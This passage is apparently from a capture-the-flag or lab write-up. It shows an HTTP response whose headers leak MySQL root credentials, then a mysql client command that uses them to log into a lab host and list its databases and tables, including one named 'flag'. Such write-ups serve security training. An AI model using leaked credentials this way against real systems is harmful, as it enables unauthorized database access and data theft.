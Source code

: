 ```
HTTP/1.1 302 Found
Date: Thu, 22 Jul 2021 23:05:39 GMT
Server: Apache/2.4.18 (Ubuntu)
X-DB-Key: x41x41x412019!
X-DB-User: root
X-DB-name: mysql
Location: 500.php
Content-Length: 0
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```
{% endhint %}

{% tabs %}
{% tab title="mysql-client" %}
```bash
mysql --host=172.16.64.81 \ 
      --user=root \
      --password=x41x41x412019! \
      --port 13306 mysql
```
{% endtab %}

{% tab title="Second Tab" %}
```bash
> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| cmsbase            |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.143 sec)
> use cmsbase;
> show tables;
+----------------------------+
| Tables_in_cmsbase          |
+----------------------------+
| flag                       |
| sqlmapfile                 |
| tbl_1_actions_log          |
| tbl_1_categories           |
| tbl_1_categories_relations |
| tbl_1_downloads            |
| tbl_1_files                |
| tbl_1_files_relations      |
| tbl_1_folders              |
| tbl_1_groups               |
| tbl_1_members              |
| tbl_1_members_requests     |
| tbl_1_notifications        |
| tbl_1_options              |
| tbl_1_password_reset       |
| tbl_1_users                |
| tbl_actions_log            |
| tbl_categories             |
| tbl_categories_relations   |
| tbl_downloads              |
| tbl_files                  |
| tbl_files_relations        |
```